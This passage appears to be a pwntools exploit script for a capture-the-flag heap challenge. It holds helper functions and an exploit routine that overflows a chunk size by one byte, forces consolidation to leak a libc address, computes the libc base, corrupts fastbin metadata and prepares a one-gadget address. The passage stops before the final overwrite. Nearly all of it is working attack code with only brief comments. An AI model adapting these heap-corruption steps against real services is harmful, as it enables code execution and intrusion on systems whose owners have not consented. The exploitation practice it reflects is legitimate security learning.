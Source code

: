 ```
def edit(index, data):
  r.recvuntil("> ")
  r.sendline("3")
  r.recvuntil("you like to change?")
  r.sendline(str(index))
  r.send(data)

def delete(index):
  r.recvuntil("> ")
  r.sendline("4")
  r.recvuntil("would you like to delete?") 
  r.sendline(str(index))

def interactive():
  if not online:
    print( """/usr/bin/gdb -q  {0} {1}""".format( r.argv[0], r.pid ) )
  r.interactive()

def exploit():
  write(0x108, "A"*0x108) #chunk size 0x110
  write(0x200, "B"*0x200) #chunk size 0x210
  write(0x108, "C"*0x108) #chunk size 0x110
  write(0x90, "barrier\n") #no top chunk consolidate after

  #there's check 'chunksize(P) != prev_size (next_chunk(P))' 
  edit(1, "B"*0x1f0 + p64(0x200) )
  delete(1) 
  edit(0, "A"*0x108) 
  #now chunk "B" is 0x200 as size and not any more 0x210 but the C chunk still has in previous size 0x210

  write(0x80, "1"*0x80) 
  write(0x80, "2"*0x80)
  delete(4) #chunk "1"
  delete(2) #chunk "C"
  
  #now consolidate should happen and in unsorted bin a block of 0x320 is there 
  #and we have still a pointer that we can use to leak or to corrupt
  write(0x320 - 0x8, "\x0a" )

  #libc leak (we loosed also 1 byte not a problem)
  read(6)
  r.recvline(); r.recvline()#empty
  leak_1=u64( ("\x00"+r.recvline()).split("What")[0].ljust(8, "\x00"))
  log.info( "libc leak 0x{0:x}".format(leak_1))
  libcBase = leak_1 - 3823104 
  if online:
    libcBase = leak_1 - 3951360 #we get this offset after leak and then some delete to generate a core dumps
  log.info( "libc base address 0x{0:x}".format(libcBase))

  #we found that we can use fastbin corrupt .. so  fake chunk craft
  #pwndbg> x/60gx 0x0601ffa
  #0x601ffa: 0x1e28000000000000  0xf1b0000000000060
  edit(6, "1"*(0x88 + 0x8) + "2"*0x58 + p64(0x21))
  edit(6, "1"*0x88 + p64(0x61)) 
  delete(5) #chunk "2" fastbin approved

  #so how we overwrite now? 
  onegadget= libcBase + 0xd6e77
  if online:
    onegadget = libcBase +0xf1147
  log.info( "one gadget base address 0x{0:x}".format(onegadget))
```
